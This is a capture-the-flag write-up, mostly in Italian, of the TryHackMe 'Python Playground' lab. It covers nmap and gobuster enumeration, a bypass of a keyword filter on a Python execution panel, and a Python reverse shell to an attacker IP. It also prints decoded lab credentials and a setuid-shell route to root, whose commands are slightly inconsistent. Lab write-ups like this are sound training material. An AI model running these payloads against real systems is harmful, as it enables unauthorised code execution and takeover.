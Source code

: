 #+TITLE: THM - Python Playground
#+AUTHOR: Leonardo Tamiano

* Enumeration
** nmap
*** nmap -sC -sV pyground
  #+begin_example

Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-07 07:43 CET
Nmap scan report for pyground (10.10.150.113)
Host is up (0.078s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
|_  256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Python Playground!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.30 seconds

  #+end_example

*** nmap -p- pyground
  #+begin_example

Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-07 07:43 CET
Stats: 0:02:38 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 37.08% done; ETC: 07:50 (0:04:30 remaining)
Stats: 0:03:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 42.54% done; ETC: 07:52 (0:05:17 remaining)
Nmap scan report for pyground (10.10.150.113)
Host is up (0.060s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1017.51 seconds

  #+end_example

** gobuster

*** gobuster dir -w ~/repos/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://pyground -x html

    #+begin_example
/index.html           (Status: 200) [Size: 941]
/login.html           (Status: 200) [Size: 549]
/signup.html          (Status: 200) [Size: 549]
/admin.html           (Status: 200) [Size: 3134]    
    #+end_example
** evading python playground firewall

   Analizzando il codice ~/admin.html~ abbiamo trovato la seguente risorsa:
   
   #+begin_example
   http://pyground/super-secret-admin-testing-panel.html
   #+end_example

   che ci permette di eseguire del codice python.

   -------------------------------------
   
   Per evadere il firewall possiamo utilizzare
   
   #+begin_example
   __import__('os')
   #+end_example
   
   questo è possibile in quanto la regola che blocca le richieste è
   implementata nel seguente modo
   
   #+begin_src js
function isAllowed(code){
    if(typeof code !== 'string'){
        return false;
    }
    if(code.indexOf('import ') >= 0){
        return false;
    }
    if(code.indexOf('eval') >= 0){
        return false;
    }
    if(code.indexOf('.system') >= 0){
        return false;
    }
    if(code.indexOf('exec') >= 0){
        return false;
    }

    return true;
}   
   #+end_src

   Che è stata ottenuta nel seguente modo
   
   #+begin_src python
print(__import__('os').listdir('/root/app/'))
# print(__import__('getpass').getuser())
with open('/root/app/index.js', 'r') as f:
    print(f.read())
   #+end_src

   Per spawnare una reverse invece il payload da utilizzare è
   
   #+begin_src python
socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.16.66",4321));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")   
   #+end_src
* PrivEsc
** credenziali per entrare
   Possono essere ottenute facendo il reversing delle funzioni
   javascript presenti nella pagina ~admin.html~.
   
   #+begin_src js
  function int_array_to_string(intArray) {
      var str = "";

      for(let i = 0; i < intArray.length; i += 2) {
	const c = intArray[i] * 26 + intArray[i+1];
	str += String.fromCharCode(c);	
      }
      
      return str;
    }

    function text_to_int_array(txt) {
      var intArray = [];

      for(let i = 0; i < txt.length; i++) {
	intArray.push(txt.charCodeAt(i) - 97)
      }
      
      return intArray;
    }

const pass = int_array_to_string(text_to_int_array(int_array_to_string(text_to_int_array(hash))))

console.log(pass);
   #+end_src

   Alla fine otteniamo
   
   #+begin_example
   connor:spaghetti1245
   #+end_example

** diventare root
   Per diventare root dobbiamo fare due cose:

   1. Nel docker della macchina, come root, dobbiamo copiare il
      binario ~/bin/sh~ nella cartella condivisa ~/mnt/log~ e poi mettere
      al binario il ~setUID bit~.
      
      #+begin_src sh
cp /bin/sh /mnt/log
chmod +s /bin/sh
      #+end_src

   2. Ci dobbiamo poi loggare alla macchina utilizzando le credenziali
      trovate per connor, ovvero ~connor:spaghetti1245~ e una volta
      entrati dobbiamo eseguire la shell caricata prima
      
      #+begin_src sh
ssh connor@pyground 
cd /var/log
./sh -p      
      #+end_src

   A questo punto siamo effective user ID root e possiamo, ad esempio,
   aggiungere la nostra chiave al file ~.authorized_keys~ per ottenere
   user ID root.
